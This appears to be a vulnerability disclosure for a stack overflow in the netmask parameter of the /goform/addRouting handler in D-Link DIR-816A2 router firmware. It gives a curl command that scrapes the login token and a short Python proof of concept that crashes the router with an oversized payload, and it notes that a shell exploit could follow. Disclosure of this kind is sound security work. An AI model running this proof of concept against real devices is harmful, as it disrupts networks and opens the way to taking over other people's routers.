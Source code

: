 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/addRouting.  The content obtained by netmask parameter is passed to V3, and then the content matched by V3 is write into the V13 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)


## Vulnerability verify

![](img/3.png#center)

![](img/4.png#center)

## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests


tokenid = ''

url = 'http://192.168.0.1/goform/addRouting'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'dest': '1.1.1.1',
    'netmask': payload
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```

You can see the router crash, and finally you can write an exp to get a shell